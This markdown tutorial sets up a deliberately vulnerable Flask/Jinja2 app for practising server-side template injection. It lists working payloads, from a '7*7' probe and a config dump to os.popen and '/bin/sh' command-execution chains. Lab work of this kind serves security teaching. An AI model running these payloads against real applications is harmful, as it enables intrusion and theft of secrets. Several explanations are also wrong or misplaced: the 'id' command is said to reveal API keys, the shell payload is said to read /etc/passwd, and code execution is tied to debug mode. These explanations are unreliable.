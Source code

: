 # **Setting Up a Vulnerable SSTI Lab**

## **Step 1: Set Up a Local SSTI Lab**
We will create a **Flask web application** with a vulnerable **Jinja2** template engine.  

### **Prerequisites**  
Make sure you have **Python 3** installed. Then install Flask:  
```bash
pip install flask
```

---

## **Step 2: Create a Flask App with SSTI Vulnerability**
Save the following code as `app.py`:  

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        user_input = request.form.get("input", "")
        response = render_template_string(user_input)  # 🚨 Vulnerable SSTI
        return response

    return '''
    <form method="POST">
        <input type="text" name="input" placeholder="Enter input here">
        <input type="submit" value="Submit">
    </form>
    '''

if __name__ == "__main__":
    app.run(debug=True)
```

---

## **Step 3: Run the Vulnerable App**
Run the Flask app with:  
```bash
python app.py
```
It will start a local server at `http://127.0.0.1:5000/`.  

---

## **Step 4: Exploiting the SSTI Vulnerability**  

### **1. Basic Injection Test**
Go to the input field and enter:  
```jinja2
{{ 7 * 7 }}
```
If it returns `49`, the application is **vulnerable to SSTI**.

---

### **2. Extract Sensitive Data**
Try reading environment variables:  
```jinja2
{{ config.items() }}
```

---

### **3. Achieve Remote Code Execution (RCE)**
If the app is running in debug mode, execute system commands:  
```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
This may return system environment variables like SECRET_KEY, DB_PASSWORD, or API keys.
or  
```jinja2
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/bin/sh', shell=True, stdout=-1).communicate()[0] }}
```
Reads the /etc/passwd file on Linux (check for usernames).

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```
Execute `whoami` to reveal the current user:

---

## **Step 5: Fix the Vulnerability**
To **prevent SSTI**, replace `render_template_string()` with **safe rendering**:  
```python
from flask import escape
safe_response = escape(user_input)  # Escapes dangerous characters
```

---

##  Next Steps
 **Play with the lab** – Test different SSTI payloads.  
**Try other template engines** – Modify this app to use Twig (PHP) or Freemarker (Java).  
**Practice CTF challenges** – Try SSTI challenges on **TryHackMe**, **Hack The Box**, or **picoCTF**.  


